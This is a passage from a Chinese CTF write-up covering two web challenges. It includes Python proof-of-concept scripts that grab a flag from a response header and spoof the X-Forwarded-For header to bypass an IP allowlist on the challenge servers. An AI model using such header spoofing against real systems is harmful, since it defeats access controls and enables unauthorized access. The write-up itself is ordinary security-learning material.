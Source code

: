 请求的页面不能加上login..., 也不需要再次登录，直接带cookie去get请求就出flag了..

## 0x04 fast
SCUCTF还没开始出题人就秀了一把他出的题目，给我看了headers, 我不知道是啥，他说了句，实验吧的天下武功唯快不破。

搜了一下思路有了，拿到flag发送回去就好，poc如下


```python
import requests
import base64

url = 'http://223.129.64.72:5000/'

r = requests.Session()
flag = r.get(url).headers['Flag']

print flag
flag = flag[5:]
# data = base64.b64encode(flag)

# flag = 'flag{\%s}' % data
print flag
payload = {
        'flag':flag
        }
t = r.post(url+'flag', data=payload)
# t = r.get(url, params=payload)
print t.url
print t.text
```


但是还有个坑，部署他用的uwsgi, 这个针对时间要求特别高的不行，支持很差，第一天没人提交..23333我是第一天晚上才开始做这次的ctf的，那时候还没人提交这道题。

我问题哪里没对么，他说...服务器没对，2333，他重新搞了下，等我回寝室提交的时候就可以了，但是不是一血，有一个人在我之前提交了。

## 0x05 ip
打开显示


```html
您的IP是：121.48.213.217<br>不在允许范围，本系统仅允许202.115.47.141访问
```

觉得是学校的服务器的网段，扫了下扫不动，后来才知道这个是教务处的233333333333

改`X-Forwarded-For`头就行了，伪造来源ip, 利用的poc如下

```python
#! coding:utf-8
import requests

url = 'http://119.29.16.200:5004'

r = requests.get(url)
print r.encoding
r.encoding = 'utf-8'
print r.text

payload ={
        'X-Forwarded-For': '202.115.47.141'
        }
r = requests.get(url, headers=payload)
print r.url
print r.encoding
r.encoding = 'utf-8'
print r.text
```